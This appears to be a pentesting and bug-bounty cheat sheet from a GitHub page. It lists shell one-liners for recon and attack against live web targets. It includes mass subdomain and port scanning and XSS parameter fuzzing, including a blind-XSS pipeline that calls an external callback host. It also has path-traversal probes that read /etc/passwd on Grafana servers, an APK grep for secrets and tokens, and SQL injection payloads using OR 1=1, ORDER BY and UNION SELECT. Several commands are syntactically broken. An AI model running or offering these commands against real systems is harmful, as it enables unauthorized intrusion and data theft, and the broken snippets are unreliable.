 ##### To fetch javascript files from subdomain and waybackurls:
`echo "subdomain" | waybackurls | grep -P ".*\.js" | wget`
##### To get endpoints from javascript files:
`grep -RoP "(\/[a-zA-Z0-9_\-]+)+"`
##### To find hidden parameters in javascript files:
```
 cat subs.txt |gau | egrep -v '(.css|.svg)' | while read url; do vars=$(curl -s $url| grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"
```
##### Port scan without Cloudflare
`subfinder -silent -d uber.com | filter-resolved | cf-check | sort -u | naabu -rate 40000 -silent -verify | httprobe`
##### Extract IP from file
`grep -E -o '(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)\.(25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)' file.txt`
##### Find JS Files
```bash
assetfinder site.com | gau|egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)'|while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" |sed -e 's, 'var','"$url"?',g' -e 's/ //g'|grep -v '.js'|sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars";done
```
##### Extract endpoints from JS files
`cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u`
##### Get CIDR & Orgz from Target Lists
`for DOMAIN in $(cat domains.txt);do echo $(for ip in $(dig a $DOMAIN +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; done | uniq); done`
##### Web cache poisoning tool
`gau example.com -o path/to/url.txt | xargs -a /path/to/url.txt -I{} -d'\n' ./wcp.sh url {} > cachepoison.txt`
##### Getting possibly DT vuln links
`httpx -l URLS.txt -follow-redirects -title -path /api/geojson?url=file:///etc/passwd -match-string "root:x:0:0"`
`cat subs.txt | httpx -threads 900 -random-agent | tee -a live.txt`
##### cleaning domain names
`cat domains.txt | egrep -v 'key|words|you|dont|want|wtf|') > clean.txt`
##### subs
`subfinder -d target -silent | sort -u | httpx -title -threads 100 -ports 443,80,9991,8000,10000,5000 -content-length -status-code -o httpxout.txt`
##### rename multiple files corresponding to a list via perl
`perl -lne 'rename("$..html","$_.html")' names.txt`
##### Xss possible automation
```bash
cat Target.com | gau -subs | grep "https://" | grep -v "png\|jpg\|css\|js\|gif\|txt" | grep "=" |uro |dalfox pipe --deep-domxss --multicast --blind username.xss.ht

##### Grafana endpoints vulnerable to LFI
`echo 'app="Grafana"' | fofa -fs 1000 | httpx -status-code -path "/public/plugins/graph/../../../../../../../../etc/passwd" -mc 200 -ms 'root:x:0:0'`
##### Heartbleed checker
`cat list.txt | while read line ; do echo "QUIT" | openssl s_client -connect $line:443 2>&1 | grep 'server extension "heartbeat" (id=15)' || echo $line: safe; done`
##### Extract urls from junky data/js files etc.
`cat file | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*`  or  `curl http://host.xx/file.js | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*`
##### Extract Potentially sensitive files from android apk
`apktool d app_name.apk | grep -EHirn "accesskey|admin|aes|api_key|apikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder/`
##### Remove the noise from burp
```
.*\.google\.com 
.*\.gstatic\.com 
.*\.googleapis\.com
.*\.pki\.goog
.*\.mozilla\..*
```
##### Find login portals from given list of domains
`cat hosts.txt | httprobe -c 300 | ffuf -w - -u FUZZ -mr "assword"`
##### Find CIDR range with ASN number
`whois -h whois.radb.net -- '-i origin AS22843' | grep -Eo "([0-9.]+){4}/[0-9]+" | sort -u`
This can be done with amass too: `amass intel -asn ASN` which works in reverse and gives the domains too: `amass intel -cidr CIDR`
##### SQL injection checking in token parameter
`/v1/users.php?format=json&token=invalid_token'+or+'1'='1`
##### Another example using ORDER BY:
`/v1/users.php?format=json&token=valid_token'+order+by+1--+`
*If response is valid,column 1 exists,change the number and each request will reveal number of columns
##### UNION SELECT usage to gather more info:
`/v1/users.php?format=json&token=valid_token'union+select+1,2,3,4,5--`
There will be displayed certain numbers in the response and when we use SQL functions like, database() or version() etc.
